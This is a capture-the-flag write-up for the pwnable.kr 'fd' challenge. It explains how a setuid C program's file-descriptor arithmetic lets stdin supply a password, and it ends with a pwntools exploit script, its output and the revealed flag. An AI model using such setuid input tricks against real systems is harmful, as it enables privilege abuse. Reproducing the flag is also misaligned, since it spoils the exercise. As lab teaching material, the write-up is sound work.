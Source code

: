 # fd

## step-by-step

Following the game instructions, you need to connect to a remote machine using the following command:

```
ssh fd@pwnable.kr -p2222
```

> [!WARNING]
> The password to access the remote machine is `guest`.

If everything went well you should get a result similar to this:

```
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|
                                                                     
- Site admin : daehee87@khu.ac.kr
- irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have mail.
Last login: Mon Jul  1 03:16:08 2024 from 101.176.80.154
fd@pwnable:~$
```

Let's try using the `ls -la` command to see which files we have access to:

```
fd@pwnable:~$ ls -la
total 40
drwxr-x---   5 root   fd   4096 Oct 26  2016 .
drwxr-xr-x 116 root   root 4096 Oct 30  2023 ..
d---------   2 root   root 4096 Jun 12  2014 .bash_history
-r-sr-x---   1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r--   1 root   root  418 Jun 11  2014 fd.c
-r--r-----   1 fd_pwn root   50 Jun 11  2014 flag
-rw-------   1 root   root  128 Oct 26  2016 .gdb_history
dr-xr-xr-x   2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x   2 root   root 4096 Oct 23  2016 .pwntools-cache
```

as you can imagine, the flag we are looking for is found inside the `flag` file, however, as you can imagine from the permissions, we cannot view the content, in fact using the `cat flag` command we obtain:

```
fd@pwnable:~$ cat flag 
cat: flag: Permission denied
```

We therefore note that there is an ELF file, i.e. `fd`, correlated by the `fd.c` source whose contents we can view using the `cat fd.c` command:

```
fd@pwnable:~$ cat fd.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

Well, let's just focus on the C language, so I'll write the code more plainly:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

> [!NOTE]
> I apologize for the very messy style but it wouldn't make sense to fix it because it is important to develop the ability to read, modify and exploit code written by others.

In this code we notice:

1. The ability to pass a number via command line, using `argv`.
2. That for the calculation of the file descriptor `fd` we have the difference between the string passed from the command line (converted into a number via `atoi()`) and the hexadecimal number `0x1234`.
3. That by inserting the string `LETMEWIN` it is possible to execute the command `system("/bin/cat flag");` which coincidentally is exactly what we need to find the flag.

Therefore, it is clear that to exploit this code to our advantage we will need to enter a number from the command line that allows us to redirect the `fd` file descriptor in our favor. Well this number is precisely the conversion into an integer of the number `0x1234` which can be obtained using the following command:

```
fd@pwnable:~$ python -c "print(0x1234)"
4660
```

In fact, the integer difference between `4660` and itself results in `fd = 0`. This means that the file descriptor is associated with `stdin`. So the `read()` function will read from `stdin` any data that we decide to write and in particular we should write the string `LETMEWIN`. Let's see it in action:

```
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

Perfect, everything went according to plan! So as you can imagine the flag you are looking for is the following sentence:

```
mommy! I think I know what a file descriptor is!!
```

## Exploitation

Finally, we can use the following exploit, written in `Python`, to replicate the vulnerability in a fully automated way:

```python
from pwn import *

shell = ssh("fd", "pwnable.kr", password="guest", port=2222)
process = shell.process(executable="./fd", argv=["fd", "4660"])
process.sendline("LETMEWIN".encode())

print(process.recv())
print("Flag:", process.recv())

process.close()
shell.close()
```

then using the `python exploit.py` command we get:

```
[+] Connecting to pwnable.kr on port 2222: Done
[*] fd@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process bytearray(b'./fd') on pwnable.kr: pid 105486
b'good job :)\n'
Flag: b'mommy! I think I know what a file descriptor is!!\n'
[*] Stopped remote process 'fd' on pwnable.kr (pid 105486)
[*] Closed connection to 'pwnable.kr'
```
